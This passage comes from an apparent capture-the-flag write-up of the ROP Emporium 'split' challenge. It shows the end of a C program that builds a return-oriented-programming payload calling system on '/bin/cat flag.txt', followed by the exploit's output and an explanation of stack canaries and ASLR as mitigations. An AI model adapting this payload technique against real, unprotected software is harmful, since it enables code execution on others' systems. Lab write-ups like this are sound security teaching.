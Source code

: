 	// string "/bin/cat flag.txt"
	uint64_t flag = 0x00601060;
	fwrite(&flag, sizeof(flag), 1, fd);
	// call system
	uint64_t system = 0x00400810;
	fwrite(&system, sizeof(system), 1, fd);

	fclose(fd);
	return 0;
}
{{< / highlight >}}


```
$ ./split <data
split by ROP Emporium
64bits

Contriving a reason to ask user for data...
> ROPE{a_placeholder_32byte_flag!}
Segmentation fault (core dumped)
```

With the second challenge beaten you can check out the other challenges.
I had a lot of fun piecing the puzzles together and learned a bunch of new things about the low-level execution flow of a program, especially how function calls into a shared library really work.
I encourage you to have a look at the other challenges.


# ROP Mitigations

Now that we understand the basic concept behind ROP, let us briefly look at some mitigation techniques which try to harden software against exploitation with ROP.

A general technique to detect stack buffer overflows and prevent overwriting of return addresses is called stack canaries.
A canary value chosen randomly at program start gets written right on top of return address of a function.
Before the function returns, the canary value is checked to be unchanged.
An attacker trying to overwrite the return address has to overwrite the canary value as well, with the same value which was there before.
Most compilers support some kind of stack protection like this.
The compilation flag in GCC is `-fstack-protector` to protect only "larger" functions which limits the negative performance impact, or `-fstack-protector-all` to protect all functions.
The ROP Emporium challenges have it disabled (`i~canary`).

Another widespread technique is address space layout randomization (ASLR).
The address where each component of a program (executable code and library dependencies) is mapped into the virtual address space of the process is randomly chosen at the program start.
Hence, the attacker does not know the address of a ROP gadget anymore as it changes with each program start.
Program code must be compiled as position-independent code (PIC) to support this randomization.
It was not done for the challenges (`i~pic`).
